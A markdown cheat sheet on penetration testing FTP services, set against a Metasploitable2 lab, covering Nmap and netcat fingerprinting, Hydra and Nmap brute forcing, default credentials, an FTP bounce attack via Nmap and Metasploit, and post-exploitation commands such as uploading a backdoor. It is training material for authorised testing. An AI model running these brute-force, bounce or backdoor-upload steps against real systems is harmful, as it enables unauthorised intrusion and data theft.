



#  File Transfer Protocol (FTP) - Penetration Testing
---

##  FTP Basics
- Remote file system access
- Operates on **TCP ports 21 (control)** and **20 (data)**

---

##  FTP Vulnerabilities
1. Brute force login attacks
2. Anonymous login and unauthenticated access
3. Authentication bypass or exploitation of vulnerable software

---

##  Fingerprinting FTP Services

###  Using Nmap:
```bash
nmap -Pn -sS -A -p21 192.168.10.x
```


###  Banner Grabbing using Netcat:
```bash
nc -nv 192.168.10.x 21
```


###  Useful Nmap FTP Scripts:
- `ftp-anon`: Test for anonymous login access
- `ftp-brute`: Brute force FTP username/password
- `ftp-syst`: Get FTP version and system type

```bash
nmap -p 21 -T4 --script ftp-anon,ftp-syst,ftp-brute 192.168.10.x
```

 Example Output:
```plaintext
Nmap scan report for 192.168.10.129
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     > user:user - Valid credentials <
|_  Statistics: Performed 1833 guesses in 302 seconds
| ftp-syst: 
|   vsFTPd 2.3.4 - secure, fast, stable
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

---

##  Brute Forcing with Hydra
```bash
hydra -L users.txt -P pass.txt ftp://<target-ip>
```

---

##  Version Detection & Exploit Search
After detecting the FTP version, use `searchsploit` to find related vulnerabilities (CVEs):

```bash
searchsploit <ftp-version>
```


---

##  Default FTP Credentials (Try First)
```bash
ftp:ftp
anonymous:anonymous
user:user
```

 Example with Metasploitable2:
```bash
ftp 192.168.10.x
# Login: ftp
# Password: ftp
```


---

#  FTP Attacks

##  FTP Bounce Attack

###  Concept:
1. FTP Active mode uses `PORT` to send target IP and port
2. Attacker manipulates FTP server to connect to other internal devices
3. Allows internal **port scanning**, **relay attacks**, or **data exfiltration**

###  Tools:

#### Nmap:
```bash
nmap -b <ftp_user>:<ftp_pass>@<FTP_server> <target_network>
```

####  Metasploit:
```bash
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS <FTP_server>
set RPORT <FTP_port>
run
```

---

##  Post-Exploitation FTP Commands

| Command | Description | Example |
|---------|-------------|---------|
| lcd     | Change local directory     | `lcd /path/to/dir`     |
| cd      | Change server directory    | `cd /target/dir`       |
| ls      | List server files          | `ls`                   |
| get     | Download file              | `get file.txt`         |
| mget    | Download multiple files    | `mget *.txt`           |
| put     | Upload file                | `put backdoor.exe`     |
| mput    | Upload multiple files      | `mput *.exe`           |
| bin     | Binary mode                | `bin`                  |
| ascii   | ASCII transfer mode        | `ascii`                |
| quit    | Exit FTP client            | `quit`                 |

---